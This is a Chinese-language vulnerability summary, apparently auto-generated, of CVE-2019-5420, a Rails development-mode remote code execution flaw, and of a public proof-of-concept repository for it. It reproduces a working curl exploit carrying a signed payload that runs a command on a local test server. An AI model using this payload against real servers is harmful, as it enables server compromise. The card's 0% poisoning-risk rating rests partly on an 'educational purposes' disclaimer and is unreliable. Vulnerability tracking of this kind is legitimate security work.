 ## CVE-2019-5420-Rails开发模式远程代码执行

**漏洞编号:** CVE-2019-5420

**漏洞类型:** 远程代码执行

**影响应用:** Rails

**危害等级:** 高危，可能导致服务器被完全控制

**影响版本:** <5.2.2.1, <6.0.0.beta3 (开发模式)

**利用条件:** Rails应用运行于开发模式，且目标服务器可访问

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2019-5420是一个存在于Rails框架开发模式下的远程代码执行漏洞。攻击者可以通过猜测自动生成的开发模式密钥令牌，然后利用该令牌结合其他Rails内部机制，实现远程代码执行。漏洞影响Rails 5.2.2.1之前和6.0.0.beta3之前的版本。

**利用方式：**

1.  **猜测密钥：** 漏洞利用的关键在于猜测Rails应用在开发模式下自动生成的`secret_key_base`。由于生成算法的随机性不足，攻击者可以通过一些手段进行猜测。
2.  **构造恶意请求：** 成功获取`secret_key_base`后，攻击者可以构造一个包含恶意代码的请求，并使用该密钥对其进行签名。Rails应用在处理该请求时，会验证签名，如果验证通过，就会执行恶意代码。

**POC有效性：**

提供的Dockerfile、Gemfile等文件用于构建一个存在漏洞的Rails应用环境，方便漏洞验证。

提供的POC利用代码 `curl http://127.0.0.1:3000/rails/active_storage/disk/eyJfcmFpbHMiOnsibWVzc2FnZSI6IkJBaHZPa0JCWTNScGRtVlRkWEJ3YjNKME9qcEVaWEJ5WldOaGRHbHZiam82UkdWd2NtVmpZWFJsWkVsdWMzUmhibU5sVm1GeWFXRmliR1ZRY205NGVRazZEa0JwYm5OMFlXNWpaVzg2Q0VWU1FnZzZDVUJ6Y21OSkloVmdkRzkxWTJnZ0wzUnRjQzl5WTJWZ0Jqb0dSVlE2RGtCbWFXeGxibUZ0WlVraUJqRUdPd2xVT2d4QWJHbHVaVzV2YVFZNkRFQnRaWFJvYjJRNkMzSmxjM1ZzZERvSlFIWmhja2tpREVCeVpYTjFiSFFHT3dsVU9oQkFaR1Z3Y21WallYUnZja2wxT2g5QlkzUnBkbVZUZFhCd2IzSjBPanBFWlhCeVpXTmhkR2x2YmdBR093bFUiLCJleHAiOm51bGwsInB1ciI6ImJsb2Jfa2V5In19--78c21ddf5ca4239d862118730069e04fbf38fd3d'/test` 看起来像是利用了Active Storage的某个功能点，结合猜测的密钥，最终触发命令执行。

根据提供的`README.md`，该POC执行`touch /tmp/rce`命令，如果执行成功，则表明漏洞利用成功。因此，该POC是有效的。

**投毒风险：**

查看提供的Dockerfile、Gemfile和LICENSE等文件，没有发现任何明显的恶意代码或后门。该漏洞本身是由于Rails开发模式下的安全配置不当造成的，POC代码只是利用了这一漏洞。`README.md` 提到 "For educational purposes only."，说明作者的意图是用于学习和研究，而不是恶意利用。因此，可以认为该代码存在投毒风险的概率很低，大约为0%。

**项目地址:** [knqyf263/CVE-2019-5420](https://github.com/knqyf263/CVE-2019-5420)

**漏洞详情:** [CVE-2019-5420](https://nvd.nist.gov/vuln/detail/CVE-2019-5420)